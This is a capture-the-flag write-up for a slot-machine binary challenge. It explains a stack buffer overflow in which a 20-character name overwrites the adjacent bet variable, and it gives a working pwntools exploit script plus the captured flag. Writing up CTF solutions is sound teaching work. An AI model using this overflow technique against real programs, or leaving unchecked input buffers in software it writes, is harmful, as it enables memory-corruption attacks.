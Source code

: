 We have a program similar to Rigged Slot Machine1, but it checks if our **bank_limit** is equal to 1337420, and if so, it gives us a flag.

We have a buffer overflow error in the **enter_name()** function:

![image](https://hackmd.io/_uploads/S1pa_SdM1e.png)

Since our array has a maximum of 20 characters, and it is right below the **bet** variable - our bet value

![image](https://hackmd.io/_uploads/Byd8YBOGkx.png)

![image](https://hackmd.io/_uploads/By0mYBuf1g.png)

Now we just need to overflow **bet** to a value greater than 1337420 and bet with that excess value and we will have a flag.

Script: 
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./rigged_slot2_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("riggedslot2.ctf.intigriti.io", 1337)

    return r


def main():
    r = conn()
    input()
    payload = b'A'*20 + p32(0x146851)
    r.sendlineafter(b'name:', payload)
    pause()
    r.sendlineafter(b'spin):', b'5')
    pause()
    info(r.recvall(3))
    pause()
    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()

```
Result:

![image](https://hackmd.io/_uploads/SykYFH_Myl.png)

Flag: ```INTIGRITI{1_w15h_17_w45_7h15_345y_1n_v3645}```
